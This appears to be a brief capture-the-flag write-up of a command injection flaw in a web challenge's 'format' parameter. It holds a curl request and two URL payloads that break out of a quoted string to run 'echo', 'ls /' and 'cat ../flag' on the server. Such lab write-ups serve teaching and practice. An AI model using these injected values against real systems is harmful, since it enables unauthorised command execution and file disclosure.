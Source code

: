     curl "94.237.60.55:39212?format=123'; echo 'test';"


It's command injection. Should be trivial.

    http://94.237.60.55:39212/?format=%27;ls%20/%27
    
    http://94.237.60.55:39212/?format=%27;cat ../flag%27
        
            
